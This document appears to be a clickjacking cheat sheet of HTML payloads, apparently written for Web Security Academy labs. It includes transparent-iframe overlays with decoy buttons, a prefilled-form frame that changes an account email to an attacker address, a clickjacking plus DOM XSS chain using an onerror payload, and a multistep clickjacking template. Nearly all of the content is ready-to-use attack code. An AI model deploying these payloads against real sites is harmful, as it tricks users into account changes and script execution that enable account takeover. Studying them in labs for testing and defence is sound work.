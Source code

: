 ## basic attack

change **opacity + width + height** values as you wish: 
```html
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:470px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://vulnerable.com/email?email=asd@asd.asd"></iframe>
```

## prefilled form 

```html
`<iframe src="https://vulnerable-website.com/my-account?email=hacker@attacker-website.com"></iframe>`
```

---
# chain
## clickjacking + DOM XSS 

```html
<iframe src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

## Multistep clickjacking

```html
<style>
  	iframe {
  		position:relative;
  		width:$width_value;
  		height: $height_value;
  		opacity: $opacity;
  		z-index: 2;
  	}
     .firstClick, .secondClick {
  		position:absolute;
  		top:$top_value1;
  		left:$side_value1;
  		z-index: 1;
  	}
     .secondClick {
  		top:$top_value2;
  		left:$side_value2;
  	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>

```